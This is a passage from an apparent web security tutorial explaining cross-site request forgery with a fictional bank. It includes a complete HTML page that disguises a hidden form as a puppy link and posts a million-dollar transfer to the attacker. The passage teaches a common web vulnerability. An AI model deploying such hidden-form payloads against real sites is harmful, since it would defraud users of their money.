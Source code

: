 The page has a form where you can fill out a "recipient" field and an "amount"
field. You fill out your brother's email `joe@gmail.com` in the recipient field
and \$100 for the amount, and then hit the 'Send Money' button.

When you hit the 'Send Money' button, the following happens:

1. An HTTP POST request is made to `http://badbank.com/send-money`. When you
   logged in earlier, your browser received a cookie and stored it in
   association with `http://badbank.com`. Now, your browser sees this "send
   money" request going to the `http://badbank.com` domain, so it attaches that
   cookie to the HTTP request.
2. The request arrives at the server. The server sees that there is a cookie,
   and it checks the cookie.
3. Since the cookie is valid, the server knows that you are logged in, and the
   server processes the form data to see who you're sending money to and how
   much you are sending.
4. The server finishes processing the form data and sends \$100 to your brother
   Joe.

Things are going well so far!

Unfortunately, a devious hacker comes along. The hacker puts up another website
that looks like this:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>See Cute Puppies</title>
    <style>
      form {
        visibility: hidden;
      }
      input[type="submit"] {
        visibility: visible;
      }
    </style>
  </head>
  <body>
    <form action="http://badbank.com/send-money" method="post">
      <label for="recipient">Recipient Email: </label>
      <input
        type="email"
        id="recipient"
        name="recipient"
        value="hacker@gmail.com"
      />
      <label for="amount">Amount: </label>
      <input type="number" id="amount" name="amount" value="1000000" />
      <input type="submit" value="See the cutest puppies!" />
    </form>
  </body>
</html>
```


[cookie]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
[other considerations]: https://github.com/pillarjs/understanding-csrf